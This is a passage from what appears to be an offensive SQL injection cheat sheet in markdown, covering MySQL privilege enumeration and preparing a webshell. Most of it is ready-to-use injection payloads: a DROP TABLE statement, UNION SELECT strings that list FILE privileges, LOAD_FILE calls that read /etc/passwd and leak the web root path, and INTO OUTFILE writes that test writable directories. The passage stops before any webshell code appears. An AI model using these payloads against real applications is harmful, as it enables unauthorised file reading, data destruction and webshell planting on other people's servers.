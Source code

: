 ```sql
DROP TABLE <database_name>.<table_name>;
```

### 2.2 - Webshell

#### 2.2.1 - Conditions

These are the required conditions to leverage this vulnerability.

1. The DB user must have **FILE** and **SELECT** privileges.

2. Find the web root directory using the enumeration methods.

3. The web root directory must have write permissions.

#### 2.2.2 - Enumerate Database User Privileges

```sql
' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE = 'FILE'#
```

#### 2.2.2 - Web Root Enumeration

Note: This step is necessary to find a destination to write a webshell.

##### 2.2.2.1 - Linux

- Using SQL Query statements will disclose the PHP warning messages to find the absolute path of the web root directory.

```sql
' UNION SELECT 1, LOAD_FILE('/etc/passwd')#

' UNION SELECT LOAD_FILE('/etc/passwd'), 1#

' UNION SELECT LOAD_FILE('/etc/passwd'), NULL#

' UNION SELECT NULL, LOAD_FILE('/etc/passwd')#
```

- When you execute the `LOAD_FILE()` function. Keep an eye out the php warning syntax messages. It'll provide you the absolute path to write php files.

```sql
' UNION SELECT 'test', NULL INTO OUTFILE '/tmp/file.txt'#

' UNION SELECT 1, LOAD_FILE('/tmp/file.txt')#

' UNION SELECT 'test', NULL INTO OUTFILE '/dev/shm/file.txt'#

' UNION SELECT 1, LOAD_FILE('/dev/shm/file.txt')#
```
